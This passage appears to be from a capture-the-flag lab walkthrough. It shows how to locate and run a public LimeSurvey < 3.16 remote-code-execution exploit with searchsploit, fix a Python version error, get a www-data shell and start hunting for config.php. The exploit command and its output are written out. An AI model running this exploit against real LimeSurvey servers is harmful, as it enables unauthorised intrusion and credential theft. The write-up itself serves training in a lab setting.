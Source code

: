 Now, to find the exploit simply remember that `searchsploit` is a local utility from [exploitdb](https://www.exploit-db.com), which means that the exploit is in the attacker machine, within the `/usr/share/exploitdb/exploits` folder. 

This is a snippet!

```
#!/usr/bin/python

# Description: LimeSurvey < 3.16 use a old version of "TCPDF" library, this version is vulnerable to a Serialization Attack via the "phar://" wrapper.
# Date: 29/03/2019
# Exploit Title: Remote Code Execution in LimeSurvey < 3.16 via Serialization Attack in TCPDF.
# Exploit Author: @q3rv0
# Google Dork:
# Version: < 3.16
# Tested on: LimeSurvey 3.15
```

This should work.

Now, one thing that might happen is this:

```
python lime.py http://10.10.21.46 admin password             
  File "/home/kali/Downloads/thm/ghizer/lime.py", line 49
    print "Usage: python exploit.py [URL] [USERNAME] [PASSWORD]"
          ^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print("Usage: python exploit.py [URL] [USERNAME] [PASSWORD]")?
```

Make sure to use the correct version of python!

Hint: `python2` or `python3`.

Looks like it worked! :)

```
$ python2 lime.py http://10.10.21.46 admin password
[*] Logging in to LimeSurvey...
[*] Creating a new Survey...
[+] SurveyID: 329682
[*] Uploading a malicious PHAR...
[*] Sending the Payload...
[*] TCPDF Response: <strong>TCPDF ERROR: </strong>[Image] Unable to get the size of the image: phar://./upload/surveys/329682/files/malicious.jpg
[+] Pwned! :)
[+] Getting the shell...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now search for that `config.php` file.

```
$ ls -lh
total 88K
-rwxr-xr-x  1 www-data www-data 3.2K Feb 14  2019 CONTRIBUTING.md
-rwxr-xr-x  1 www-data www-data 2.5K Feb 14  2019 README.md
drwxr-xr-x  2 www-data www-data 4.0K Feb 14  2019 admin
drwxr-xr-x 15 www-data www-data 4.0K Feb 14  2019 application
drwxr-xr-x  7 www-data www-data 4.0K Feb 14  2019 assets
-rwxr-xr-x  1 www-data www-data 1.2K Feb 14  2019 composer.json
drwxr-xr-x  4 www-data www-data 4.0K Feb 14  2019 docs
drwxr-xr-x 19 www-data www-data 4.0K Feb 14  2019 framework
-rwxr-xr-x  1 www-data www-data 6.5K Feb 14  2019 index.php
drwxr-xr-x  5 www-data www-data 4.0K Feb 14  2019 installer
drwxr-xr-x 95 www-data www-data 4.0K Feb 14  2019 locale
-rwxr-xr-x  1 www-data www-data   80 Feb 14  2019 manifest.yml
```